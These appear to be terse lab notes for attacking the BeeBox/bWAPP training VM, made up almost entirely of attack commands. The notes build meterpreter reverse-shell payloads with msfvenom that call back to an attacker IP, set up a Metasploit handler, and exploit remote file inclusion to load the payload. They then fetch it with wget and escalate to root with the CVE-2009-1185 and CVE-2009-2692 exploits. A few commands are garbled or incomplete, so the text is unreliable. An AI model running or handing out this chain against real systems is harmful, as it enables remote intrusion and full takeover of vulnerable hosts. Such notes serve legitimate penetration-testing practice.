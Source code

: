### BeeBox

"/multi/handler" can be used for txt file reverse shell

msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.112.4 LPORT=4446 -f raw -o /var/www/html/evil.txt
msfconsole  
use exploit/multi/handler 
set LPORT 4446  
set LHOST 192.168.112.4 
set PAYLOAD php/meterpreter_reverse_tcp 
run 

***Remote & Local File Inclusion (RFI/LFI)***

http://192.168.1.135/bWAPP/rlfi.php?language=lang_en.php&action=go
?language=http://192.168.112.4/evil.txt

python -c 'import pty; pty.spawn("/bin/sh")'
id  
whoami  

On Kali:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.112.4 LPORT=5000 -f elf -o /var/www/html/run
service apache2   
msfconsole  
use exploit/multi/handler 
set LHOST 192.168.112.4 
set LPORT 5000  
set PAYLOAD linux/x86/meterpreter/reverse_tcp 

On BeeBox:  
wget http://192.168.112.4/run -o /tmp/cd un 
gcc cve-2009-1185.c -o /tmp/privescalation  
chmod +x /tmp/privescalation  
cd /tmp 
ps aux | grep udev  
./privescalation (PID discovered with grep minus 1 - e.g. 2864 - 1 = 2863)  


**Easy Way**  
tar -xvf cve-2009-2692.tar  
cd cve-2009-2692  
sh cve-2009-2692.sh 

